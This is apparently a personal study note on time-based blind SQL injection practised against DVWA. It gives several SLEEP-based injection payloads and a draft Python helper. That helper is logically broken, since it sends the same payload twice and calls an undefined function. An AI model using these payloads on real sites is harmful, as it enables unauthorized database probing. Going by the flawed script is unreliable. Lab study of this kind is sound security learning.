 # Time-Based Blind Query SQL Injection

Search Tag(s): #blind-sql-injection #dvwa

TODO: Write a python script to bruteforce queries in order to automate blind SQL injection

```sql
' OR IF(1=1, SLEEP(5), 0)#
```

```sql
' OR IF(1=1, SLEEP(5), 0) UNION SELECT (SELECT version())#
```

This is just for reference but will be removed once the information is filled.

```python
# Check if the response time increases when the condition is true
def time_based_blind_sql_injection(target_url, injection_payload):
    response_time_when_condition_true = send_request(target_url, injection_payload)
    sleep(5)  # Introduce a delay
    response_time_when_condition_false = send_request(target_url, injection_payload)

    if response_time_when_condition_true > response_time_when_condition_false:
        return True  # The injected condition is true
    else:
        return False  # The injected condition is false

# Example usage
target_url = "https://example.com/vulnerable-page"
injection_payload = "1' AND IF(1=1, SLEEP(5), 0) --"

result = time_based_blind_sql_injection(target_url, injection_payload)
print("Is the injected condition true?", result)
```

---
## References

- [Learning Web Pentesting With DVWA Part 3: Blind SQL Injection](http://moinkhans.blogspot.com/2020/03/learning-web-pentesting-with-dvwa-part_28.html)